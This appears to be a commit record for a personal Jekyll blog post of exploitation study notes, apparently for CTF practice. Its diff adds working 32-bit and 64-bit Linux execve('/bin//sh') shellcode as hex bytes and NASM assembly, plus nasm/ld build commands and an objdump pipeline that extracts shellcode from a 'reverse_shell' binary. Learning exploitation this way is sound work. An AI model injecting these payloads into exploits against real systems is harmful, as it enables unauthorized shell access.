

Before and after one commit to yc54616/yc54616.github.io, a Jekyll site: the page built from _posts/2023-12-10-shellcode.md, in a window 1280 px wide. Shown: the whole page at 89% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
pwntools

````diff
--- a/_posts/2023-12-10-shellcode.md
+++ b/_posts/2023-12-10-shellcode.md
@@ -4,8 +4,24 @@ title:  Shellcode
 date: 2023-12-10 20:00:03 +0900
 categories: PWN
 ---
-## Shellcode
+
 ```
+objdump -d ./reverse_shell|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
+```
+```
+nasm -f elf64 -o shellcode.o shellcode.s
+ld -o shellcode shellcode.o
+```
+
+## Shellcode 32bit
+```
+\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80
+```
+```
+section .text
+global _start
+
+_start:
 xor ecx, ecx       ; ecx = NULL
 mov edx, ecx       ; edx = NULL
 push ecx           ; push NULL
@@ -15,6 +31,24 @@ mov ebx, esp       ; ebx now points to //bin/sh
 mov al, 0xb        ; systemcall execve
 int 0x80
 ```
+
+
+## Shellcode 64bit
 ```
-objdump -d ./reverse_shell|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
+\x48\x31\xc0\x50\xb0\x3b\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\x0f\x05
 ```
+```
+section .text
+global _start
+
+_start:
+xor rax, rax	;set rax 0
+push rax	;make /bin//sh next byte null
+mov al, 0x3b	;set syscall number
+mov rdi, 0x68732f2f6e69622f	;make /bin//sh string
+push rdi	;push /bin//sh string
+mov rdi, rsp	;set first arg (rsp points to /bin//sh)
+xor rsi, rsi	;set second arg
+xor rdx, rdx	;set third arg
+syscall
+```
````
Also changed, not shown: _posts/2023-12-11-pwntools.md (+0 -1 lines).
